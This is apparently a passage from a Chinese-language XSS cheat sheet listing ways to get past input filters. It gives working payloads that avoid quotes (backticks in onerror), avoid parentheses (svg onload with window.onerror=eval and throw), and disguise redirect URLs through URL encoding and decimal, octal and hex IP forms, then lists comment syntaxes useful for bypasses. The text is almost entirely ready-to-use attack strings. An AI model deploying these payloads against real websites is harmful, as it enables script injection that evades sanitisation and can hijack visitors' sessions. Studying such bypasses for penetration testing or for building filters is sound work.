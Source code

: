 #### 过滤双引号,单引号

```js
1.如果是html标签中,我们可以不用引号.如果是在js中,我们可以用反引号代替单双引号
<img src="x" onerror=alert(`xss`);>
2.使用编码绕过,具体看上面我列举的例子,我就不多赘述了
```

#### 过滤括号

```js
当括号被过滤的时候可以使用throw来绕过
<svg/onload="window.onerror=eval;throw'=alert\x281\x29';">
```

#### 过滤url地址

```js
// 使用url编码
<img src="x" onerror=document.location=`http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d/`>

// 使用IP
// 1.十进制IP
<img src="x" onerror=document.location=`http://2130706433/`>

// 2.八进制IP
<img src="x" onerror=document.location=`http://0177.0.0.01/`>

// 3.hex
<img src="x" onerror=document.location=`http://0x7f.0x0.0x0.0x1/`>

// 4.html标签中用//可以代替http://
<img src="x" onerror=document.location=`//www.baidu.com`>

// 5.使用\\,但是要注意在windows下\本身就有特殊用途,是一个path 的写法,所以\\在Windows下是file协议,在linux下才会是当前域的协议

// 6.使用中文逗号代替英文逗号,如果你在你在域名中输入中文句号浏览器会自动转化成英文的逗号
<img src="x" onerror="document.location=`http://www.baidu.com`">//会自动跳转到百度
```

#### javascript 伪协议绕过

无法闭合双引号的情况下,就无法使用 onclick 等事件,只能伪协议绕过,或者调用外部 js
```js
注释符
// 单行注释
<!-- --!> 注释多行内容
<!-- --> 注释多行内容
<-- --> 注释多行内容
<-- --!> 注释多行内容
--> 单行注释后面内容
/* */ 多行注释
有时还可以利用浏览器的容错性,不需要注释
```
